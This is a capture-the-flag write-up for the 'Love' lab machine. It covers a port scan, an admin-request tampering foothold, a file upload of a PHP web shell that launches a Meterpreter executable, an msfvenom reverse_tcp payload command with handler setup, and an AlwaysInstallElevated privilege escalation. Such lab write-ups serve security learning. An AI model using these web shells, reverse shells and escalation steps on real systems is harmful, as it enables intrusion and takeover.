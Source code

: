 ![LOVE](images/banner.png)
```
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
```
## Foothold

On Port 443 we see a insecure certificate:
![image](https://user-images.githubusercontent.com/24591381/118567957-14081f80-b777-11eb-84e4-a4806b44461e.png)

So we add staging.love.htb to our /etc/hosts.

On the demo on the site we find a File Scanner with which we can include files from /admin/ and / with localhost/[filename].

That's how we found out, that we could add users with the http://love.htb/admin/includes/voters_modal.php, however it doesn't work because the path in the POST is wrong. So we intercept it with burpsuite and remove "includes" from the path, so that our POST gets send to the right voters_add. 

## User

Now we can succesfully add new users. We also found out, that we can upload files through the photo parameter which aren't pictures. These files can be reached under love.htb/images. So we upload this basic shell.php and meterprete.exe:

shell.php
```php
<?php
header('Content-type: text/plain');
exec('meterpreter.exe');
?>
```
meterpreter.exe created with msfvenom:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > meterpreter.exe
```
We use the multi/handler listener in msfconsole:
```
use exploit/multi/handler
```
after setting LHOST and LPORT we set PAYLOAD to:
```
windows/x64/meterpreter/reverse_tcp
```

## Root

PrivEsc is straight forward as winPeas already gives the right hint: https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated.

We can just use the recommended post exploit msf payload since we are already in a meterpreter session. After switching our session in the background with "bg" we just use:
```
use exploit/windows/local/always_install_elevated
```
Now we only need to set LPORT and LHOST aswell as our session ID which we can find out by simply running "sessions".
After that just hit "run" and we are root.
